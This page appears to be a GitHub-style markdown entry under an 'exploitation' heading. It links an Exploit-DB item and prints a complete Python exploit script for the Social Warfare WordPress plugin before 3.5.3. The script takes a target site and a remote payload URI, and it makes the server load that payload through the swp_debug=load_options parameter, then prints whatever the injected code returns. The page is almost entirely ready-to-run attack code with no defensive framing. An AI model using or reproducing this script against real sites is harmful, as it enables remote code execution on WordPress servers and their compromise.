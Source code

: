 
## exploitation
### social warfsare plugin < 3.5.3 exploit

- [Details](https://www.exploit-db.com/exploits/46794)
- Author: hash3liZer

```python
import sys
import requests
import re
import urlparse
import optparse

class EXPLOIT:

	VULNPATH = "wp-admin/admin-post.php?swp_debug=load_options&swp_url=%s"

	def __init__(self, _t, _p):
		self.target  = _t
		self.payload = _p

	def engage(self):
		uri = urlparse.urljoin( self.target, self.VULNPATH % self.payload )
		r = requests.get( uri )
		if r.status_code == 500:
			print "[*] Received Response From Server!"
			rr  = r.text
			obj = re.search(r"^(.*)<\!DOCTYPE", r.text.replace( "\n", "lnbreak" ))
			if obj:
				resp = obj.groups()[0]
				if resp:
					print "[<] Received: "
					print resp.replace( "lnbreak", "\n" )
				else:
					sys.exit("[<] Nothing Received for the given payload. Seems like the server is not vulnerable!")
			else:
				sys.exit("[<] Nothing Received for the given payload. Seems like the server is not vulnerable!")
		else:
			sys.exit( "[~] Unexpected Status Received!" )

def main():
	parser = optparse.OptionParser(  )

	parser.add_option( '-t', '--target', dest="target", default="", type="string", help="Target Link" )
	parser.add_option( ''  , '--payload-uri', dest="payload", default="", type="string", help="URI where the file payload.txt is located." )

	(options, args) = parser.parse_args()

	print "[>] Sending Payload to System!"
	exploit = EXPLOIT( options.target, options.payload )
	exploit.engage()

if __name__ == "__main__":
	main()
```
